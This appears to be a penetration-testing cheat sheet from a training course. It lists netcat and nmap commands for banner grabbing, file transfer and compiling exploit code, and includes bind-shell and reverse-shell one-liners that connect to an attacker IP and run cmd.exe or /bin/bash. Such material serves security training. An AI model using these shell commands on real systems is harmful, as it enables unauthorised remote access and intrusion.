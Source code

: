 # Miscellaneous 

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Banner Grabbing

```
nmap -sV
```
```
nmap --script=banner
```
```
nc [IP-ADDRESS] [PORT]
```

* attempt to logon to a service to see welcome banner

***********************************************************************

## nmap scripts

* https://nmap.org/book/nse.html  

```
ls -al /usr/share/nmap/scripts/
```

***********************************************************************

## Searching for Exploits

* Exploit-DB
   * SearchSploit
* Rapid7
* Packet Storm

***********************************************************************

## Compiling C Code

### For Windows
* x64:
```
i686-w64-mingw32-gcc [C-CODE] -o [OUTFILE]
```
* x86:
```
i686-w64-mingw32-gcc [C-CODE] -o [OUTFILE] -lws2_32
```

### For Linux
```
gcc -pthread [C-CODE] -o [OUTFILE] -lcrypt
```

Pre-Compiled C Code:  

* https://gitlab.com/exploit-database/exploitdb-bin-sploits

***********************************************************************

## Netcat

Connect to port:
```
nc -nv [TARGET-IP] [PORT]
```
*You can use the -u flag to connect to a UDP port*

nc.exe is built into Kali. You can transfer it to a windows machine by any means. It is located at:
```
/usr/share/windows-binaries/
```

Set up Simple HTTP Server via Python:
```
python -m SimpleHTTPServer [PORT]
```

Set up a nc listener:
```
nc -lnvp [PORT]
```
*You can use the -u flag to listen to a UDP port*

Transfer file via Netcat:  
* On receiving machine (THIS MUST BE SET UP FIRST):
```
nc -lnvp [PORT] > [IN-FILE]
```
*[IN-FILE] Does not have to be the same name as [OUT-FILE], which means you can change the name of the file (while keeping contents the same) when transferring the [OUT-FILE] from the sending machine to the receiving machine.*

* On sending machine (THIS MUST BE SET UP SECOND):
```
nc -nv [RECEIVING-IP] [RECEIVING-PORT] < [OUT-FILE]
```

### Bind Shells

*Attacker connects to target*

* use -e [EXECUTABLE] on nc listener (Target) machine

Examples:

Windows:
```
nc.exe -lnvp [PORT] -e cmd.exe
```

Linux:
```
nc -lnvp [PORT] -e /bin/bash
```

### Reverse Shells

*Target connects to attacker*

* use -e [EXECUTABLE] on nc (Target) machine

Examples:

Windows:
```
nc.exe -nv [ATTACK-IP] [PORT] -e cmd.exe
```

Linux:
```
nc -nv [ATTACK-IP] [PORT] -e /bin/bash
```

*Reverse Shells do not have to use netcat. Other options are available*

Reverse Shell Cheatsheet:  
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Reverse Shell Generator: 
* https://www.revshells.com/

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2